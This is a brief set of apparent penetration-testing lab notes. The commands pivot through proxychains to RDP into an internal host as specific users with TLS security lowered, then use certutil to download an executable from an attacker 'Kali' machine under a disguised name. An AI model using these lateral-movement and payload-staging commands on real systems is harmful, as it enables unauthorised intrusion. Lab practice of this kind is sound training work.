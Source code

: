 **Connect to RDP**
```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```

**Connect to RDP using poultryadmin**
```
proxychains xfreerdp /u:poultryadmin /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```

**Download file from Kali**
```
certutil.exe -urlcache -f http://KALI_IP/whoami.exe Current.exe
```